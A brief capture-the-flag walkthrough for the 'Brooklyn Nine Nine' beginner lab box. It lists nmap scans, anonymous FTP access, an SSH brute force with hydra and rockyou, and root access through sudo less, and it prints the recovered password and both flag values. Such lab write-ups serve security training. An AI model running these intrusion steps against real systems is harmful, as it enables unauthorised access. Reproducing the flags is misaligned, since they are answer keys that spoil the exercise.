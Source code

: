 # Brooklyn Nine Nine

> This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

<br>

Process:
- 1) scanning 
  - port scan: `nmap -T4 <ip>`
  - aggressive scan: `nmap -T4 -A -p 21,22,80`
- 2) check anonymous FTP login 
  - login: `ftp <ip>` -> [anonymous]
  - found: "note_to_jake.txt" -- indicating jake has weak password
- 3) try to brute force SSH
  - `hydra -l jake -P /usr/share/wordlists/rockyou.txt <ip> ssh`
  - found password: jake:987654321
- 4) login to SSH
  - `ssh jake@<ip>` -> [987654321]
- 5) find user flag 
  - `cat /home/holt/user.txt` = **ee11cbb19052e40b07aac0ca060c23ee**
- 6) find admin flag
  - see sudo privileges: `sudo -l` -- found: "/usr/bin/less"
  - get root flag: `sudo less /root/root.txt` = **63a9f0ea7bb98050796b649e85481845**